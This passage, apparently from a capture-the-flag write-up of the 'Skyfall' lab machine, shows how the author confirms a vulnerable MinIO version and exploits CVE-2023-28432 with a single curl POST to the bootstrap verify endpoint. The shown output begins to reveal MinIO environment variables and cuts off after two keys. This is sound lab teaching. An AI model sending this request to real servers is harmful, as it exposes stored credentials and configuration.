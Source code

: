 ![minio vulnerable to info disclosure](/assets/images/Skyfall/minio-vulnerable-to-info-disclosure.png)

The MinIO version in this server matches that range between 2019-12-17T23-16-33Z and 2023-03-20T20-16-18Z, so it's vulnerable.

Now, searching for exploits I saw [this one](https://github.com/acheiii/CVE-2023-28432) and the only things that does is make a POST request to /minio/bootstrap/v1/verify:

![poc script just makes a request](/assets/images/Skyfall/poc-script-just-makes-a-request.png)

So I will do it manually with curl:

```bash
❯ curl -sS -X POST http://prd23-s3-backend.skyfall.htb/minio/bootstrap/v1/verify | jq '.MinioEnv'
```
```json
{
  "MINIO_ACCESS_KEY_FILE": "access_key",
  "MINIO_BROWSER": "off",
```